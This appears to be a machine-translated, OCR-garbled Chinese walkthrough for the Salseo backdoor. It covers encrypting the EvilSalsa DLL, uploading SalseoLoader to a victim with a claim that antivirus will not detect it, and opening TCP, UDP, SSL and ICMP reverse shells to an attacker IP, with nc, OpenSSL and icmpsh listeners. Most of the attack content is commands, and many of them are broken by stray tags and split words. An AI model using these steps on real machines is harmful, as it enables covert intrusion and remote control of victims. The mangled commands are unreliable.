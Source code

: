 **Python**

python encrypterasembly/encrypterasembly . py <file><password><output_file>python encrypterasembly/encrypterasembly . py EvilSalsa.dll 密码 evilsalsa.dll.txt</output_file></password></file>

**视窗**

EncrypterAssembly.exe<file><password></password></file>
<file><password><output_file>EncrypterAssembly.exe EvilSalsa.dll 密码 evil salsa . dll . txt</output_file></password></file>

好了，现在你已经拥有了执行 Salseo 所需的一切:SalseoLoader 的**编码 EvilDalsa.dll**和**二进制文件**。**把 SalseoLoader.exe 二进制文件上传到机器上。应该不会被任何 AV 察觉…**

**执行后门**

**获取 TCP 反向外壳(通过 HTTP 下载编码的 dll)**

记得启动一个 nc 作为反向 shell 监听器，并启动一个 HTTP 服务器来服务编码的 evilsalsa。

**SalseoLoader.exe 密码 http:///evil salsa . dll . txt reverset CP<攻击者-IP > <端口>**

**获取 UDP 反向 shell(通过 SMB 下载编码的 dll)**

记得启动一个 nc 作为反向 shell 监听器，并启动一个 SMB 服务器来服务编码的 evilsalsa (impacket-smbserver)。

**SalseoLoader.exe 密码\/folder/evil salsa . dll . txt reverseudp<攻击者-IP > <端口>**

**获取 TCP 反向外壳 SSL(使用本地文件)**

**在攻击者机器内部设置监听器:**

**OpenSSL req-x509-new key RSA:4096-keyut key . PEM-out cert . PEM-days 365-nodes
OpenSSL s _ server-key key key . PEM-cert cert . PEM-port**<port>**-TL S1**</port>

**执行后门:**

**SalseoLoader.exe 密码 C:/path/to/evil salsa . dll . txt ReverseSSL<攻击者-IP > <端口>**<attacker-ip></attacker-ip>

 ******获取 ICMP 反向外壳(已在受害者体内编码的 dll)**

**这时候你需要在客户端用一个特殊的工具来接收反向外壳。下载:【[https://github.com/inquisb/icmpsh](https://github.com/inquisb/icmpsh)】**

**禁用 ICMP 回复:**

**#完成后，您可以使其再次运行:
sysctl-w net . IP v4 . icmp _ echo _ ignore _ all = 0**

**执行客户端:**

**python icmpsh_m.py " <攻击者-IP > " " < Victm-IP > "**

**在受害者内部，让我们执行 salseo 的事情:**

**SalseoLoader.exe 密码 C:/Path/to/evil salsa . dll . txt reverse icmp<攻击者-IP >**

**将 SalseoLoader 编译成 DLL 导出主函数**

使用 Visual Studio 打开 SalseoLoader 项目。

**在主函数前添加:【DllExport】**
